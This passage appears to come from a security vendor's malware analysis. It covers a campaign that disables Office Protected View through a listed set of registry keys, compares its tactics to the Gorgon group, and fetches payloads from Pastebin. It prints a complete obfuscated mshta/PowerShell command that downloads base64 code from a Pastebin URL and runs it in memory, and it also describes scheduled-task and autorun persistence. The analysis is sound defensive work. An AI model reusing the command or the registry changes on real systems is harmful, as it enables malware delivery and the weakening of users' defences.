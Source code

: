 HKCU\Software\Microsoft\Office\12.0\PowerPoint\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\12.0\PowerPoint\Security\ProtectedView\DisableUnsafeLocationsInPV
HKCU\Software\Microsoft\Office\12.0\Excel\Security\ProtectedView\DisableInternetFilesInPV
HKCU\Software\Microsoft\Office\12.0\Excel\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\12.0\Excel\Security\ProtectedView\DisableUnsafeLocationsInPV
HKCU\Software\Microsoft\Office\14.0\Word\Security\ProtectedView\DisableInternetFilesInPV
HKCU\Software\Microsoft\Office\14.0\Word\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\14.0\Word\Security\ProtectedView\DisableUnsafeLocationsInPV
HKCU\Software\Microsoft\Office\14.0\PowerPoint\Security\ProtectedView\DisableInternetFilesInPV
HKCU\Software\Microsoft\Office\14.0\PowerPoint\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\14.0\PowerPoint\Security\ProtectedView\DisableUnsafeLocationsInPV
HKCU\Software\Microsoft\Office\14.0\Excel\Security\ProtectedView\DisableInternetFilesInPV
HKCU\Software\Microsoft\Office\14.0\Excel\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\14.0\Excel\Security\ProtectedView\DisableUnsafeLocationsInPV
HKCU\Software\Microsoft\Office\15.0\Word\Security\ProtectedView\DisableInternetFilesInPV
HKCU\Software\Microsoft\Office\15.0\Word\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\15.0\Word\Security\ProtectedView\DisableUnsafeLocationsInPV
HKCU\Software\Microsoft\Office\15.0\PowerPoint\Security\ProtectedView\DisableInternetFilesInPV
HKCU\Software\Microsoft\Office\15.0\PowerPoint\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\15.0\PowerPoint\Security\ProtectedView\DisableUnsafeLocationsInPV
HKCU\Software\Microsoft\Office\15.0\Excel\Security\ProtectedView\DisableInternetFilesInPV
HKCU\Software\Microsoft\Office\15.0\Excel\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\15.0\Excel\Security\ProtectedView\DisableUnsafeLocationsInPV
HKCU\Software\Microsoft\Office\16.0\Word\Security\ProtectedView\DisableInternetFilesInPV
HKCU\Software\Microsoft\Office\16.0\Word\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\16.0\Word\Security\ProtectedView\DisableUnsafeLocationsInPV
HKCU\Software\Microsoft\Office\16.0\PowerPoint\Security\ProtectedView\DisableInternetFilesInPV
HKCU\Software\Microsoft\Office\16.0\PowerPoint\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\16.0\PowerPoint\Security\ProtectedView\DisableUnsafeLocationsInPV
HKCU\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView\DisableInternetFilesInPV
HKCU\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView\DisableAttachementsInPV
HKCU\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView\DisableUnsafeLocationsInPV
The technique of enabling macros and disabling ProtectedView in Office, including the order in which the registry keys were modified was also described in our blog covering the Gorgon group. Also, the tactic of killing processes for Windows Defender and Microsoft Office applications was also carried out by Gorgon as well. The Gorgon group also used the bitly URL shortening service in their attacks, but while these are obvious technique overlaps, we still do not have concrete evidence that this attack campaign is associated with Gorgon.
The script hosted on Blogspot then carries out three main activities that include:

Downloading a payload from a Pastebin URL
Creating a scheduled task to periodically obtain and run a script from a Pastebin URL
Creating an autorun registry key to obtain and run a script from a Pastebin URL

Obtaining a payload from Pastebin
The script hosted at Blogspot obtains a portable executable payload from a Pastebin URL and executes it. The script builds the following command and attempts to run it using the WScript.Shell object:
mshta.exe vbscript:CreateObject(""Wscript.Shell"").Run(""powershell.exe -noexit -command [Reflection.Assembly]::Load([System.Convert]::FromBase64String((New-Object Net.WebClient).DownloadString(\'h\'+\'t\'+\'t\'+\'p\'+\'s:\'+\'//p\'+\'a\'+\'s\'+\'t\'+\'e\'+\'b\'+\'i\'+\'n\'+\'.\'+\'c\'+\'o\'+\'m\'+\'/\'+\'r\'+\'a\'+\'w\'+\'/\'+\'2LDaeHE1\'))).EntryPoint.Invoke($N,$N)"",0,true)(window.close)
The command above results in the downloading of a portable executable hosted on Pastebin at https://pastebin[.]com/raw/2LDaeHE1, decoding the base64 downloaded from the URL, and then executing it. Figure 6 shows the Pastebin page hosting the executable downloaded by the script.
Figure 6. 2LDaeHE1 Pastebin page
The decoded payload has the following attributes:
